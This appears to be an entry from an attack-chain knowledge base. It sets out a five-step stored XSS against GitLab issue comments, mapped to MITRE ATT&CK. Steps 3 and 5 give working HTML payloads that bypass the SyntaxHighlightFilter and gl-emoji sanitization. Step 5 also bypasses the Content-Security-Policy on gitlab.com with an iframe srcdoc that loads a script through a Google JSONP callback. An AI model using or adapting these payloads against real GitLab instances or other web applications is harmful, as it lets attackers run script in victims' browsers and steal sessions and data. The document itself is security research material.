

---
tags:
  - xss
  - stored-xss
  - gitlab
  - sanitization-bypass
  - csp-bypass
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Self-Managed-GitLab-Instance]]'
  - '[[procedures/Create-New-Issue-in-GitLab-Project]]'
  - '[[procedures/Inject-Stored-XSS-Payload-in-Issue-Comment]]'
  - '[[procedures/Trigger-XSS-by-Viewing-Issue]]'
  - '[[procedures/Bypass-CSP-in-GitLab-SaaS-with-Iframe-Payload]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-13T23:52:34.071Z'
description: >-
  A multi-stage attack exploiting stored XSS in GitLab issue comments through
  server-side and frontend sanitization bypasses, enabling arbitrary JavaScript
  execution on viewers' browsers, with an extension to GitLab SaaS via CSP
  bypass.
skill_level: intermediate
impact_level: high
id: 9d7c1f56-5dfc-492a-a45a-e228a5d2e99f
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
---
# Stored XSS in GitLab Issue Comments via SyntaxHighlightFilter and gl-emoji Sanitization Bypasses

Multi-stage attack chain demonstrating exploitation of stored XSS vulnerabilities in GitLab's issue comments and note-containing pages, leveraging bypasses in the SyntaxHighlightFilter and gl-emoji component to inject and execute malicious JavaScript.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (web browser and GitLab access sufficient)

### Target Environment

- Self-managed GitLab instance (version 14.4.2-ee or vulnerable equivalent)
- GitLab SaaS (gitlab.com) for CSP bypass stage
- Required services/ports: HTTP/HTTPS on port 80/443, PostgreSQL, Redis
- Network access requirements: Local access for self-hosted setup; internet access for SaaS

### Initial Access Requirements

- Valid user account with privileges to create issues and comments in a GitLab project
- No prior elevated access needed; attacker must have comment submission rights

## Detailed Attack Procedures

### Step 1: Set Up Self-Managed GitLab Instance
procedure: [[procedures/Set-Up-Self-Managed-GitLab-Instance]]

**Objective**: Establish a controlled GitLab environment to test the stored XSS vulnerability.

**Instructions**: Follow the procedure to install and run a local GitLab instance, then verify the environment using [[commands/gitlab-rake-env-info]]:

```bash
gitlab-rake gitlab:env:info
```

**Expected Output**: Environment details including GitLab Version: 14.4.2-ee, Ruby 2.7.4, PostgreSQL 12.7, Redis 6.0.16.

**Success Indicators**:
- GitLab instance accessible via browser
- Environment info confirms vulnerable version

### Step 2: Create New Issue in GitLab Project
procedure: [[procedures/Create-New-Issue-in-GitLab-Project]]

**Objective**: Prepare a target for payload injection by creating an issue where comments can be added.

**Instructions**: Log in to the GitLab instance, navigate to a project, and use the issue creation UI to start a new issue.

**Expected Output**: New issue page opens with a comment field available.

**Success Indicators**:
- Issue created successfully
- Comment submission form visible

### Step 3: Inject Stored XSS Payload in Issue Comment
procedure: [[procedures/Inject-Stored-XSS-Payload-in-Issue-Comment]]

**Objective**: Bypass sanitization in SyntaxHighlightFilter and gl-emoji to store malicious HTML/JavaScript in the comment.

**Instructions**: In the issue comment field, paste the crafted payload exploiting the vulnerabilities:

```html
<pre data-sourcepos=" href=\"x\"></pre><gl-emoji data-name='\"x=\"y\" onload=\"alert(document.location.href)\"' data-unicode-version='x'>abc</gl-emoji><pre x=\""><code></code></pre>
```
Submit the comment.

**Expected Output**: Comment saves without errors; payload stored in the database.

**Success Indicators**:
- Comment appears in the issue (may render partially sanitized)
- No submission errors

### Step 4: Trigger XSS by Viewing Issue
procedure: [[procedures/Trigger-XSS-by-Viewing-Issue]]

**Objective**: Execute the injected JavaScript when a victim (or tester) loads the issue page.

**Instructions**: Refresh or load the issue page containing the malicious comment. The payload executes via the onload attribute in gl-emoji.

**Expected Output**: Alert box displays the current URL (e.g., alert(document.location.href)).

**Success Indicators**:
- JavaScript alert triggers
- Browser console shows execution (inspect element for gl-emoji rendering)

### Step 5: Bypass CSP in GitLab SaaS with Iframe Payload
procedure: [[procedures/Bypass-CSP-in-GitLab-SaaS-with-Iframe-Payload]]

**Objective**: Extend the XSS to GitLab SaaS by evading Content-Security-Policy restrictions using an iframe srcdoc trick.

**Instructions**: In a private project on gitlab.com, create an issue and inject the CSP-bypassing payload:

```html
<pre data-sourcepos=""></pre><gl-emoji data-name='\"x=\"y\"<iframe srcdoc=\"<script src=https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout></script>\"' data-unicode-version='x'>abc</gl-emoji><pre x=\""><code></code></pre>
```
View the issue to load the external script via iframe.

**Expected Output**: External script from apis.google.com executes, alerting the document domain.

**Success Indicators**:
- Alert shows gitlab.com domain
- No CSP violation errors in console

## Attack Chain Summary

### Key Achievements

1. Successful injection of stored XSS payload bypassing SyntaxHighlightFilter attribute escaping.
2. Frontend gl-emoji rendering executes JavaScript via data-name attribute injection.
3. CSP bypass enables exploitation on GitLab SaaS, allowing external script loading.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
